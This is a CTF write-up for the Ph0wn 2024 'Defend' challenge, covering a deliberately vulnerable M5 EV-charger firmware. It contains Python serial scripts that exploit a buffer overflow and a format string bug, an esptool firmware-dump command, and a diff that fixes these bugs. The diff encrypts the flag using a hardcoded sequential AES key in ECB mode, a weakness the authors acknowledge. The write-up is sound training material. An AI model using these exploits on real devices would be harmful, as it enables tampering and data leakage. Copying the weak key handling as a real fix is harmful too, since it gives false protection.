



# Pwn challenges at Ph0wn 2024

## Defend by Cryptax and Az0x

In this challenge, you are given a vulnerable source code and a M5 device. The goal of participants is to fix vulnerabilities, without removing any feature (precise mandatory specs are provided).



### Vulnerability #1: Buffer Overflow in `readInput`

The message customization menu contains a buffer overflow. The variable itself has **20 bytes**.

```c
#define MAX_INPUT_LEN 128

int batteryLevel = 100;
uint8_t message[20] = "EV Charger 0.12\0";
```

When we select menu 1, we call `readInput` with `message`.

```c
void handleMenuSelection() {
  switch (menuOption) {
	case 1:
      readInput(message);
```	

And `readInput` will read up to `MAX_INPUT_LEN` characters.

```c
int readInput(uint8_t *buf) {
  Serial.print("Enter (# to finish): ");
  int i=0;
  while(i<MAX_INPUT_LEN-1) {
```

Therefore, **we will overflow after the 20th character**. 
The overflow will occur in the variable just above, which happens to be `batteryLevel` (and more).

### Exploiting the buffer overflow 

We wish to modify the battery level to a negative value, so we need to write precisely 20 characters and then 4 bytes for batteryLevel: `\xf6\xff\xff\xff` is -10 for example.


```python
import serial
import time
s = serial.Serial("/dev/ttyACM0",baudrate=115200, timeout=0.2)


s.write(b"\n")
print(s.read_until(b"Select an option:"))
s.write(b"1")
time.sleep(1)
print(s.read_until(b":"))
s.write(b"A"*20+b"\xf6\xff\xff\xff"+b"#")
time.sleep(1)
print(s.read_all())
```

### Vulnerability #2: Format String in message customization

The message customization also has a **format string** vulnerability!
Indeed, `readInput` will accept *any* character (apart `#` which terminates the string), and will display the message without any prior check at `updateBatteryDisplay()`:

```c
M5.Display.printf((const char*)message); 
```

### Exploting the Format String in `updateBatteryDisplay`

Consequently, we can input format strings such as `%p`, `%x`, `%s` etc to read variables. You'll find out that using 8 `%p` displays the flag.

```python
import serial
import time

s = serial.Serial("/dev/ttyACM0",baudrate=115200, timeout=0.2)
s.write(b"\n")
print(s.read_until(b"Select an option:"))
s.write(b"1")
time.sleep(1)
print(s.read_until(b":"))
sent = b'A '+ b'%p '*8 +b'#'
s.write(sent)
time.sleep(1)
received = s.read_all()
print(received)
```

Result: 
```
b' A %p %p %p %p %p %p %p %p \r\nA 0x0 0x7f 0x3ffc2c50 0x3ffb21ec 0xd2083 0x5 0x3ffc256c 0x3ffc25b4 \nStatus: Charges=0 
Battery=622882853%\nph0wn{0rganiZers_are_talenT3D}\nMenu:\r\n1. Custom message\r\n2. Admin\r\nSelect an option: '
```

### Vulnerability #3: unprotected memory dump

The strings in the firmware are not protected. If we dump the firmware and search for strings, we find the flag.

```
$ esptool.py -b 921600 --port /dev/ttyACM0 read_flash 0x00000 0x400000 flash_4M.bin
$ strings flash_4M.bin | grep ph0wn
```

A possible solution is to encrypt the flag in the firmware and decrypt it when it needs to be displayed. Then, the firmware would need to be reversed to (1) understand the encryption algorithm, (2) pick up the decryption key and (3) decrypt the encrypted flag.


### Organizers script

The organizer scripts was testing:

1. Compliance to the specs, e.g. that the intentional backdoor was still operational.
2. Buffer overflow in `readInput` with various amounts of `A` preceding the battery level overflow.
3. Format String in message display with various amounts of `%p` in the custom message.
4. Firmware dump. Our script was very basic and would only detect plain text flags. A simple Base64 encoding would have defeated it.




Participants were given a first flag is the buffer overflow and the format string was fixed, and a second flag for firmware dump.

In `handleMenuSelection()`, there was another potential format string vulnerability, because `printf` is called on a non-sanitized message.

```c
void handleMenuSelection() {
  switch (menuOption) {
    case 1:
      readInput(message);
      Serial.println("");
      Serial.printf((const char*)message); 
      break;
``` 

In `checkPassword()`, the function was using `sprintf` which is known to be risky and better replaced by `snprintf`.

Our scripts did not check these.

### Fixed sketch

1. Buffer overflow in `readInput`. Fix by setting `MAX_INPUT_LEN` accordingly to `message` buffer length.
2. Format string in `updateBatteryDisplay`. Fix by replacing `M5.Display.printf` by `M5.Display.print`. Note it would be safer to **sanitize** the message too.
3. Memory dump. Fix by encrypting the flag. This is sufficient to bypass our test script, but far more can be done: safer mode than EBC, storing the AES key in a secure area or remotely or obfuscating it etc. We wanted to keep the solution simple, without needing to download any additional library.
4. Format string in `handleMenuSelection`. Fix by replacing `Serial.printf` by `Serial.print`
5. Potential buffer overflow in `checkPassword`. Fix by replacing `sprintf` by `snprintf`

Not so easy to fix, wasn't it?

```diff
3a4
> #include <AES.h> 
6c7
< #define MAX_INPUT_LEN 128
---
> #define MAX_INPUT_LEN 20 // fix buffer overflow vulnerability
10,11c11,25
< uint8_t message[20] = "EV Charger 0.12\0";
< const char *FLAG = "ph0wn{0rganiZers_are_talenT3D}\0";
---
> uint8_t message[20] = "Fixed EV Charger\0";
> 
> // AES key to encrypt the organizer flag
> const uint8_t AES_KEY[16] = {0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
>                              0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F};
> 
> // Flag is encrypted to prevent seeing it with a mere "strings" when dumping
> // the firmware. For better security, consider using something stronger than
> // AES-EBC and secure the encryption key
> const uint8_t encryptedFlag[] = {
>     0xEF, 0x0E, 0xDB, 0x77, 0xFE, 0x9B, 0xFF, 0x16,
>     0xD6, 0x66, 0x45, 0xAB, 0x7C, 0xB0, 0x74, 0x94,
>     0xCD, 0x18, 0x30, 0x72, 0x31, 0x1A, 0x5A, 0xB9,
>     0xFE, 0xF3, 0x18, 0xA6, 0x1B, 0xE5, 0x97, 0x6F
> };
52a67,69
>     if (menuOption < 0 || menuOption > 10) {
>       menuOption = 0; // quick fix for int parsing
>     }
63c80,83
<     Serial.printf("%s\n", FLAG);
---
>     size_t length = sizeof(encryptedFlag);
>     uint8_t decryptedFlag[length];
>     decryptFlag(decryptedFlag, length);
>     Serial.printf("%s\n", decryptedFlag);
76c96
<       Serial.printf((const char*)message);
---
>       Serial.print((const char*)message); // fixing potential format string vulnerability
132,133c152,153
<   for (int i = 0; i < SHA256_SIZE; i++) {
<     sprintf(&hashedPassword[i * 2], "%02x", hash[i]);
---
>   for (int i = 0; i < SHA256_SIZE; i++) { // better to use snprintf
>     snprintf(&hashedPassword[i * 2], sizeof(hashedPassword) - (i * 2), "%02x", hash[i]);
239c259,262
<     M5.Display.printf("%s\n", FLAG);
---
>     size_t length = sizeof(encryptedFlag);
>     uint8_t decryptedFlag[length];
>     decryptFlag(decryptedFlag, length);
>     M5.Display.printf("%s\n", decryptedFlag);
274c297
<   M5.Display.printf((const char*)message); 
---
>   M5.Display.print((const char*)message); // fix format string vulnerability
275a299,307
> 
> void decryptFlag(uint8_t *output, size_t length) {
>     AES128 aes;
>     
>     aes.setKey(AES_KEY, sizeof(AES_KEY));
>     aes.decryptBlock(output, encryptedFlag);
>     aes.decryptBlock(output+16, encryptedFlag+16);
>     aes.clear();
> }
```
